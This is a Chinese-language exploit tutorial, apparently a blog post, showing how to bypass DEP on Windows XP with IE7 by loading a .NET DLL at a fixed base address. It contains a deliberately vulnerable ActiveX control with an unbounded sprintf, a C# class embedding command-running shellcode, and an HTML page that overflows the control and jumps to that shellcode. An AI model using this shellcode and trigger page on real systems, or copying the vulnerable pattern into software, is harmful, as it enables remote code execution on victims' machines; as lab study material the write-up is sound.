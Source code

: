 ```yaml
---
layout:		post
title:		利用.NET挑战DEP
author:		wooy0ung
tags:		windows
category:  	exploit
---
```



>[分析环境]  
>系统: Windows XP Professional sp3  
>编译器: Visual Studio 2008 
>调试器: OllyDbg 1.10  
<!-- more -->


### 0x00 前期准备

编译ActiveX控件, 注意:

```
1. 禁用优化
2. 关闭GS
3. 在静态库中使用MFC
4. 使用Unicode字符集
5. release版本
```

贴入以下代码, 具体步骤可以参考这片文章: [利用Adobe Flash Player ActiveX控件绕过SafeS.E.H](http://www.wooy0ung.me/exploit/2017/10/04/safeseh-break-byactivex/)

```
void CVulnerAX_DEPCtrl::test(LPCTSTR str)
{
	//AFX_MANAGE_STATE(AfxGetStaticModuleState());

	// TODO: 在此添加调度处理程序代码
	printf("aaaa");
	char dest[100];
	sprintf(dest,"%s",str);
}
```

新建一个.NET控件

![](/assets/img/exploit/2017-12-26-disable-dep-dotnet/0x00.png)

设置dll装载基址

![](/assets/img/exploit/2017-12-26-disable-dep-dotnet/0x01.png)

贴入以下代码, 选择debug版本, 编译

```
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;

namespace DEP_NETDLL
{
    public class Class1
    {
        public void Shellcode()
        {
            string shellcode =
            "\u9090\u9090\u9090\u9090\u9090\u9090\u9090\u9090" +
            "\ud231\u30b2\u8b64\u8b12\u0c52\u528b\u8b1c\u0842" +
            "\u728b\u8b20\u8012\u0c7e\u7533\u89f2\u03c7\u3c78" +
            "\u578b\u0178\u8bc2\u207a\uc701\ued31\u348b\u01af" +
            "\u45c6\u3e81\u6146\u6174\uf275\u7e81\u4508\u6978" +
            "\u7574\u8be9\u247a\uc701\u8b66\u6f2c\u7a8b\u011c" +
            "\u8bc7\uaf7c\u01fc\u68c7\u2067\u0120\u7968\u7530" +
            "\u686e\u7720\u6f6f\ue189\u49fe\u310b\u51c0\uff50" +
            "\u90d7";
        }
    }
}
```

新建一个文本文件, 贴入以下代码, 更名为test.html

```
<html>
<body>
<object classID="DEP_NETDLL.dll#DEP_NETDLL.Class1"></object>
<object classid="clsid:06BC9528-F8A0-456B-BBBB-09C1248BF827" id="test"></object>
<script>
var s="\u9090";
while(s.length<54){
	s+="\u9090";
}
s+="\u9090\u9090";   //s+="\u24E2\u2424";
test.test(s);
</script>
</body>
</html>
```

将VulnerAX_DEP.ocx、DEP_NETDLL.dll、test.html放到IIS服务默认文件夹的wwwroot目录下, 并且注册VulnerAX_DEP.ocx


### 0x01 exploit

打开IE7.0, 访问http://127.0.0.1/test.html, 再双击打开test.html文件

![](/assets/img/exploit/2017-12-26-disable-dep-dotnet/0x02.png)

来到这里OD附加上去, 选择"E"打开模块, ocx、dll都成功加载

![](/assets/img/exploit/2017-12-26-disable-dep-dotnet/0x03.png)

点进去DEP_NETDLL.dll, 找到shellcode的入口0x242424E2

![](/assets/img/exploit/2017-12-26-disable-dep-dotnet/0x04.png)

修改test.html

```
<html>
<body>
<object classID="DEP_NETDLL.dll#DEP_NETDLL.Class1"></object>
<object classid="clsid:06BC9528-F8A0-456B-BBBB-09C1248BF827" id="test"></object>
<script>
var s="\u9090";
while(s.length<54){
	s+="\u9090";
}
s+="\u24E2\u2424";
test.test(s);
</script>
</body>
</html>
```

关闭调试, 直接运行, pwn~

![](/assets/img/exploit/2017-12-26-disable-dep-dotnet/0x05.png)